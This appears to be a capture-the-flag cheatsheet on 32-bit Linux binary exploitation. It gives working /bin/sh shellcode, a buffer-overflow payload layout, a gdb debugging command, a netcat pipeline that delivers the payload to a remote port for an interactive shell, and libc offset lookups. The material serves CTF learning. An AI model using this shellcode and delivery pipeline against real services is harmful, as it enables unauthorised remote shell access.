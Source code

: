# Capture The Flag Cheatsheet

Example commands to aid in solving CTF problems.

## Binary Exploitation

#### Using 32-bit Shellcode

Reliable Linux/x86 (32-bit) shellcode. To find shellcode for your target architecture, see [shell-storm's list](http://shell-storm.org/shellcode/).

```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```
Anatomy of a payload for bufferoverflow:

```
Buffer start                                                     Saved EBP              Return address                     Next Return address       Argument list
|                                                                |                      |                                  |                         |
[optional NOP (0x90) bytes] [injected shellcode] [padding bytes] [fake/garbage address] [desired return address (&callee)] [callee's return address] [optional argument 1] [optional argument 2, etc]
```

Debugging shellcode in gdb - open binary, set a breakpoint at the start of the vulnerable function, run with payload bytes sent to stdin.

```
gdb ./binary
b vuln_func
r < <(python2 -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" + "\x90"*111 + "\x90"*4 + "\x80\xa0\x04\x08"')
```
Send the payload to server 10.0.0.1, listening on port 1337. Note the cat command to keeps the netcat sesssion open, granting an interactive shell:

```
(python2 -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" + "\x90"*111 + "\x90"*4 + "\x80\xa0\x04\x08"'; cat) | nc 10.0.0.1 1337
```
#### Computing offsets into libc

Assume you the know the address, in memory, at which libc has been loaded and have a local copy of the same libc version. To get offset of system():

```
readelf -s /lib/x86_64-linux-gnu/libc-2.21.so | grep "system"
```

To get offset of the "/bin/sh" string:

```
strings -t x /lib/x86_64-linux-gnu/libc-2.21.so | grep "/bin/sh"
```
